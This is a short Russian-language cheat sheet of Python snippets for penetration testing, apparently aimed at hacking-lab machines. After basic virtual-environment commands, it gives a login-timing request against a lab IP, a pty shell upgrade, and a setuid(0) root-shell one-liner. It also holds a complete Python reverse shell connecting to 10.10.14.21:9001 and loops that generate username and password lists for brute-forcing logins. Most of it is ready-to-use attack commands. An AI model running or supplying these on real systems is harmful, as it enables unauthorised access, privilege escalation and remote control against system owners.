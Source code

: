 # Python

# Активировать виртуальную среду


python3 -m venv venv

source venv/bin/activate

pip3 install -r requirements.txt

pip3 install .

deactivate    (выход и окружения)

# Интерактивный режим

    python3 -i script.py

    import requests
    url = "http://10.10.11.135/login.php?login=true"
    # Отправка POST-запроса
    response = requests.post(url, data={'user':'admin','password':'pass'})
    print(response.elapsed.microseconds)

![Uploading image.png…]()


# получение виртуальной оболочки внутри текущей сессии линукс

    python3 -c 'import pty;pty.spawn("/bin/bash")'

    export TERM=xterm

# выполнение команд оси

./python3.8 -c “import os; os.setuid(0), os.system(‘/bin/sh’)”

# Reverse shell

    exec python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.21",9001));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
# Разное
for i in range(150):
        if i % 3:
                print("carlos")
        else:
                print("wiener")


print("**************************************************************")
'''
with open('pass.txt', 'r') as f:
        lines = f.readlines()
i=0

for pwd in lines:
    if i % 3:
        print(pwd.strip('\n'))
    else:
        print("peter")
        print(pwd.strip('\n'))
        i = i+1
    i = i + 1
